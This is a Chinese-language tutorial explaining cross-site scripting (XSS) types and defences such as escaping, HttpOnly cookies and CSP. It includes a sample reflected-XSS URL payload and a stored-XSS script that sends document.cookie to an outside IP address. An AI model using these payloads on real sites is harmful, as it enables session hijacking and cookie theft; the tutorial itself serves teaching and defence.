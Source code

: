 ```yaml
---
meta:
  - name: description
    content: 前端跨站脚本攻击
  - name: keywords
    content: 前端跨站脚本攻击,XSS,前端,攻击,
---
```

# 跨站脚本攻击

## 1. 介绍

> “XSS是跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。”

xss攻击的核心方式是脚本。这些脚本通常是javascript脚本，从这个层面来说javascript能做的事情，xss攻击一般都能做到。比如：

+ 通过 document.cookie 盗取 cookie中的信息

+ 使用 js或 css破坏页面正常的结构与样式

+ 流量劫持（通过访问某段具有 window.location.href 定位到其他页面）

+ dos攻击：利用合理的客户端请求来占用过多的服务器资源，从而使合法用户无法得到服务器响应。并且通过携带过程的 cookie信息可以使服务端返回400开头的状态码，从而拒绝合理的请求服务。

+ 利用 iframe、frame、XMLHttpRequest或上述 Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，并且攻击者还可以利用 iframe，frame进一步的进行 CSRF 攻击。

+ 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力

## 2. 分类

### 2.1 反射型xss

`反射型xss`又被称为`非持久型xss`。当用户访问一个带有xss攻击代码的url请求的时候，向服务器发送请求，服务器接受请求后处理，并把客户端发送的xss攻击代码返回给客户端，客户端解析这段代码的时候，就有可能遭受xss攻击

用户浏览某个网站A，攻击者在这个网站中嵌入了恶意的脚本用于盗取用户的cookie等信息 攻击者诱导用户触发xss攻击（比如诱导用户点击非法链接），当用户触发了xss攻击的时候就会将自己的用户信息发送给攻击者 攻击者在获取用户的cookie后，就有可能盗用用户的身份信息进行非法操作

`http://xxx/search?keyword="><script>alert('XSS');</script>`

#### 反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等

数据流向： 浏览器 -> 后端 -> 浏览器

### 2.2 存储型xss

`存储型xss`又被称为`持久化的xss`。也是最危险的xss攻击方式。一旦攻击成功，就有可能造成大规模的xss攻击，也就是我们通常所说的xss蠕虫。

存储型xss攻击的一般原理是，客户端将带有xss攻击的数据发送给服务器，服务器接收并存储在数据库。当用户下次再访问这个页面的时候，服务器会读取数据库并将之前的xss代码取出发送给浏览器。浏览器解析这段数据的时候，就会遭受xss攻击。

所以，反射型xss攻击一般需要用户手动触发，而存储型xss攻击却是能够自动触发的。一般来说，反射型xss攻击的危害要比存储型xss攻击的危害要小的多。

```js
// 比如通过评论输入框将下面代码提交，之后会执行下面代码
<script type="text/javascript">
document.write("<img src='http://192.168.59.129:10086?c=" + escape(document.cookie) + "'>")
</script>
```

#### 存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里

数据流向： 浏览器 -> 后端 -> 数据库 -> 后端 -> 浏览器

### 2.3 DOM型xss

我们可以通过JavaScript来操作dom树，所以，xss攻击也是能够做到这一点的。dom型xss攻击最大的危害就是改变我们网页的布局。这种类型的xss是不需要和服务器进行交互的，只发生在客户端处理阶段。比如一段xss攻击的代码是：

```js
const div = document.createElement('div')
div.innerText = 'xss攻击的代码'
document.body.appendChild(div)
```

#### 反射型xss和dom-xss都需要在url加入js代码才能够触发

数据流向： URL -> 浏览器

### 2.4 对比总结

| 类型 | 反射型 | 存储型 | DOM型 |
| --- | --- | ---| ---|
| 触发过程 | 正常用户访问携带XSS脚本的URL | 1.黑客构造XSS脚本<br/>2.正常用户访问携带XSS脚本的页面 | 正常用户访问携带XSS脚本的URL |
| 数据存储 | URL| 数据库 | URL |
| 谁来输出 | 后端WEB应用程序 | 后端WEB应用程序 | 前端JS |
| 输出位置 | HTTP响应中 | HTTP响应中 | 动态构建DOM节点 |

## 3. 防范措施

应对XSS攻击的主要手段还是编码与过滤两种，`编码`用于将特殊的符号 "<、>、&、'、""进行html转义，而`过滤`则是阻止特定的标记、属性、事件

### 3.1 转义html

+ 使用encodeURIComponent对url中的参数进行编码(反射型xss)

+ 服务器接收到数据，在存储到数据库之前，进行转义/过滤

+ 前端接收到服务器传递过来的数据，在展示到页面前，先进行转义/过滤

### 3.2 HTTP-only Cookie

`HTTP-only`禁止JavaScript读取某些敏感Cookie，攻击者完成XSS注入后也无法窃取此Cookie属性：防止脚本冒充用户提交危险操作

如果某一个Cookie 选项被设置成 HttpOnly = true 的话，那此Cookie 只能通过服务器端修改，Js 是操作不了的（无法读写这个cookie）

### 3.3 Content-Security-Policy

在服务端使用HTTP的`Content-Security-Policy`头部来指定策略，或者在前端设置meta标答。例如下面的配置只允许加载同域下的资源

### 3.4 innerText/textContent

+ 在使用 `.innerHTML、.outerHTML、document.write()` 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用 .textContent、.setAttribute() 等

+ 如果用 Vue/React 技术栈，并且不使用 `v-html/dangerouslySetInnerHTML` 功能，就在前端 render 阶段避免 `innerHTML、outerHTML` 的 XSS 隐患

### 3.5 验证码

防止脚本冒充用户提交危险操作

## 4. 参考资料

[什么是XSS攻击，XSS攻击可以分为哪几类？如何防范XSS攻击？](https://github.com/YvetteLau/Step-By-Step/issues/18)

[web安全之xss攻击](https://zhaosaisai.com/blog/2018/web%E5%AE%89%E5%85%A8%E4%B9%8Bxss%E6%94%BB%E5%87%BB.html)
